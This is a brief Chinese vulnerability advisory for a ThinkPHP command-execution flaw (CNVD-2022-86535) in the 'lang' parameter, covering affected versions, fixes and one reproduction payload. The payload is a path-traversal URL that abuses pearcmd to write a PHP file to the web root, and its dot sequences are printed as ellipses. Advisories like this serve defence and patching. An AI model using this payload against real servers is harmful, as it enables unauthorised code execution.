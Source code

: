 # ThinkPHP 命令执行漏洞 CNVD-2022-86535

## 漏洞描述

该漏洞是由于 Thinkphp 开启了多语言功能，并且对参数 lang 传参过滤不严谨，导致攻击者可利用该漏洞执行命令。

## 漏洞影响

```
ThinkPHP >=V6.0.1，<=V6.0.13
ThinkPHP >=V5.0.X，<=V5.1.X
```

## 漏洞复现

payload：

```
/index?lang=…/…/…/…/…/…/…/…/usr/local/lib/php/pearcmd&+config-create+/&/+/var/www/html/test.php
```

## 漏洞修复

官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本。

如不需要多语言功能，请及时关闭此功能，可参考官方文档：

- https://www.kancloud.cn/manual/thinkphp6_0/1037637
- https://static.kancloud.cn/manual/thinkphp5/118132
